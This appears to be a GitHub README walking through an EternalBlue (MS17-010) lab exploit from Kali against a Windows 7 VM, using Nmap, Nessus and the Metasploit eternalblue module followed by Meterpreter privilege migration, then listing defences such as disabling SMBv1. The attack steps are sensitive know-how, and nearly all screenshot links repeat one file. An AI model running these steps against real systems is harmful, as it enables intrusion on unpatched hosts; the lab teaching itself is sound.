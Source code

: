 # MS17-010 | EternalBlue Vulnerability Demonstration

**Disclaimer** 

**This activity is intended for Ethical hacking and education purposes only. Unauthorised access or testing is illegal and unethical. Always follow laws and regulations.**

## Lab setup & Environment

**Operating system:** Windows 10

**Virtualisation software:** Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))

**Download Oracle Virtual Machine:**

https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

## Virtual machines

**Windows 7 (64 bits)**

IP address: 192.168.0.141

Type: Victim

**Download Windows 7 ISO image link:**

https://archive.org/details/Windows7-iso

**Kali Linux**

Ip address: 192.168.0.78

Type: Attacker

Tools used: Nmap, Nessus, Metasploit framework

**Download Kali Linux:**

https://www.kali.org/get-kali/#kali-platforms

## Tools used:

**Nmap:** Port scanning

**Nessus:** Vulnerability scanning

**Metasploit framework (Msfconsole):** For exploitation and post exploitation

## Target Vulnerability:

**Name:** EternalBlue (MS17-010)

**CVE ID:** CVE-2017-0144

**Type:** Remote code execution

**Service affected:** SMB v1 (Port 445)

## Steps-by-steps Process
### Setup Oracle virtual box

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### Command:
**Ping from kali Linux to windows:**

ping 192.168.0.141

**Ping from windows to kali Linux**

ping 192.168.0.78

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

**Successful ping**

### Nessusd start and IP address:

https://localhost:8834

![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

### Vulnerability report

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

### Nmap 

nmap 192.168.0.141
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


## Exploitation

### Commands:

**Msfconsole**

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

**search ms1_010**

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
  
**use exploit/windows/smb/ms17_010_eternalblue**
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
**option command**
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
LHOST: 192.168.0.78

RHOST: 192.168.0.141 (Victim)

RPORT: 445
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
## Post exploitation

### Commands and their use:

**Meterpreter > getuid = Displays the username that the Meterpreter session is running as.**

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

### System Information

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
### Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG) 

### Screenshot command
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
### Going into Desktop
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
### Creating folder
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

### Shutdown command
 
![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### END

## For Defense

**Enable automatic updates for OS**

**Always apply latest Windows updates**

**Disable SMBv1 (For EternalBlue)**

**Powershell cmd:**

dism /online /norestart /disable-feature /featurename:SMB1Protocol

**Enable firewall/ window defender**

**Block unwanted incoming/outgoing traffic**

**Create rules to block ports (eg 445 for SMB)**

**Use of antivirus and scheduled scans**








